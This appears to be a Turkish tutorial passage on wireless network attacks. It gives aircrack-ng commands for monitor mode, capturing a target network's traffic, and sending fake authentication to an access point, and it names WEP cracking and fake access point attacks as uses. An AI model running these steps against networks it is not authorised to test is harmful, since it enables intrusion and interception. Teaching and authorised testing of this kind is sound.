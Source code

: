 **Öncelikle kablosuz ağ kartını monitor moda al:**

**bash**

**sudo airmon-ng start wlan0**

**Bu işlem wlan0mon gibi yeni bir arayüz oluşturacaktır.**

###

### **2️⃣ Hedef Ağları Tara**

**Çevredeki Wi-Fi ağlarını listelemek için:**

**bash**

**sudo airodump-ng wlan0mon**

**📌 Hedef ağın MAC adresini (BSSID) ve kanal numarasını not al.**

**Özel olarak bir ağı taramak için:**

**bash**

**sudo airodump-ng -c [Kanal No] --bssid [Ağ MAC] -w dump wlan0mon**

**📌 Örnek:**

**bash**

**sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w dump wlan0mon**

### **3️⃣ Fake Authentication Gönder**

**Erişim noktasına sahte yetkilendirme göndermek için:**

**bash**

**sudo aireplay-ng -1 0 -a [Ağ MAC] -h [Kendi MAC] wlan0mon**

**📌 Örnek:**

**bash**

**sudo aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon**

**🔹 Eğer ağ Open System Authentication kullanıyorsa anında kabul edilir.
🔹 Eğer ağ Shared Key Authentication kullanıyorsa, şifreleme anahtarı olmadan bağlantı reddedilir.**

## **📌 Fake Authentication'ın Kullanım Alanları**

**✅ WEP kırma sürecini hızlandırmak
✅ Kablosuz ağa bağlı gibi görünerek veri toplamak
✅ Sahte istemciler oluşturarak sahte AP saldırıları yapmak**

**⚠️ Ancak bu teknik, WPA2/WPA3 gibi modern protokollerde işe yaramaz.**

# **🔐 WPA (Wi-Fi Protected Access) Nasıl Çalışır?**

**WPA (Wi-Fi Protected Access) kablosuz ağları korumak için geliştirilmiş bir güvenlik protokolüdür. WEP'in zayıflıklarını gidermek amacıyla geliştirilmiş ve daha güçlü şifreleme kullanarak kablosuz ağ güvenliğini artırmıştır.**
